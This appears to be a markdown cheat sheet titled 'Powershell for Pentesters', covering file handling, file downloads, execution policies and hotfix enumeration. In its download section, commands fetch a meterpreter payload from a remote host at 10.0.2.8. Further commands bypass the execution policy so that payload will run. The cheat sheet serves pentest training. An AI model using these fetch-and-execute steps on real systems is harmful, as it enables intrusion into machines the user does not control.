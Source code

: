 # Powershell for Pentesters

## Manipulating Files

```powershell
# Start the notepad app
Start-Process notepad.exe

Get-Process -name notepad

# Export the process information to the csv format
Get-Process | Export-Csv running_process.csv

# Copy-Item , Move-Item
Copy-Item .\IP.txt copy_IP.txt

# Get file Hash
Get-FileHash -Algorithm SHA256 .\IP.txt
```

## Downloading Files

```powershell
# First Way
(New-Object System.Net.WebClient).Downloadfile('http://10.0.2.8:8888/meterpreter-64.ps1', 'meterpreter.ps1')

# Second Way
Invoke-WebRequest 'http://10.0.2.8:8888/meterpreter-64.ps1' -OutFile "meterpreter.ps1"
```

To get Execution policy we can run `Get-ExecutionPolicy -list`.

Execution policies can have seven different values;

- AllSigned: Scripts can run but require all scripts to be signed by a trusted publisher.

- Bypass: All scripts can run, and no warnings or prompts will be displayed.

- Default: This refers to “restricted” for Windows clients and “RemoteSigned” for Windows servers.

- RemoteSigned: Scripts can run, and this does not require local scripts to be digitally signed.

- Restricted: The default configuration for Windows clients. Allows individual commands to run, does not allow scripts.

- Undefined: This shows that no specific execution policy was set. This means default execution policies will be enforced.

- Unrestricted: Most scripts will run.

To by pass the ExecutionPolicy we can run
```powershell
# First way
powershell -ExectionPolicy Bypass -File .\meterpreter.ps1

# Second way: -scope make only be able run for current powershell session
Set-ExecutionPolicy Bypass -scope Process
```

## System Reconnaissance

`Get-HotFix` enumerate already installed patches. 

```powershell
# This will Grep for all that have InstallOn.
Get-HotFix | Format-list | findstr InstalledOn

Get-HotFix | Format-Table HotFixID
```

`Format-List` can be used to gather more information about objects.


The `Out-File` can be used to save the output to a file for further use.

```powershell
Get-HotFix | Out-File hotfix.txt
```


